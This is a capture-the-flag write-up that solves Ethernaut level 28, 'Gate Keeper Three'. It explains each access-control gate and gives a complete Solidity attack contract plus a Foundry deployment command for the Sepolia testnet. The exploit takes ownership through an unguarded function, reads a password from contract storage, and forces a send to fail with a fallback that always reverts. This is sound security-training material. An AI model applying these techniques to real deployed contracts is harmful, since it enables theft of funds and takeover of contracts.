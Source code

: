 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/28-gate3.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 28 - Gate Keeper Three</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 28 - Gate Keeper Three](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-28-gate-keeper-three)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [Gate 1](#gate-1)
  - [Gate 2](#gate-2)
  - [Gate 3](#gate-3)
- [Solution](#solution)

## Goals

<img src="../assets/requirements/28-gate3-requirements.webp" width="800px"/>

## The hack

The `GateKeeperThree`is a really simple level. Nothing complex, just to follow the flow of each modifier. So let's check those modifiers:

### Gate 1

```javascript
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}
```

We just have to call the `construct0r()` function to become the owner of the contract. This is solidity ^0.8, constructors are defined with the `constructor` keyword. On top of that, the function lacks access control. Already seen in previous levels. Same for the `tx.origin != owner` check. So let's move on.

### Gate 2

```javascript
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

To set `allowEntrance` to `true`, we need to call the `getAllowance` function. This function needs a password. And to get the password, we need to read the storage. However, before we can do that, we need to deploy the `SimpleTrick` contract by calling the `createTrick` function. Then we can read its storage at slot `2`:

- With web3:

```javascript
await web3.eth.getStorageAt("0x...your trick address here", 2);
```

- With Foundry:

```bash
bytes32 pwd = vm.load("0x...your trick address here", bytes32(uint256(2)));
```

### Gate 3

```javascript
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
}
```

So the contract needs to have a balance greater than 0.001 ether and must be prevented from being able to send it to our `GateSkipperThree` contract. So we can either add a fallback function that always reverts, or just make sure our contract can't receive funds by omitting the `receive` and fallback functions.

And... that's it.

## Solution

Here is the full solution:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IKeeper {
    function owner() external view returns (address);
    function entrant() external view returns (address);
    function allowEntrance() external view returns (bool);
    function trick() external view returns (address);
    function construct0r() external;
    function getAllowance(uint _password) external;
    function createTrick() external;
    function enter() external;
}

contract GateSkipperThree {
    IKeeper public immutable keeper;
    address public trick;

    constructor(address _keeper) payable {
        keeper = IKeeper(_keeper);
        keeper.createTrick();
        trick = keeper.trick();
    }

    function attack(bytes32 _password) public {
        // Gate 1: Contract become owner, thanks to the lack of access control
        keeper.construct0r();
        require(keeper.owner() == address(this), "Contract isn't owner!");

        // Gate 2: Call getAllowance to get password
        keeper.getAllowance(uint256(_password));
        require(keeper.allowEntrance(), "allowEntrance isn't true!");

        // Gate 3: Deposit to keeper but revert on receive
        (bool success, ) = address(keeper).call{value: 0.0011 ether}("");
        require(success, "Deposit failed!");

        keeper.enter();
        require(keeper.entrant() == msg.sender, "Attack failed!");
    }

    fallback() external {
        require(true == false);
    }
}
```

Then you can run the script with the following command:

```bash
forge script script/28_GateKeeperThree.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
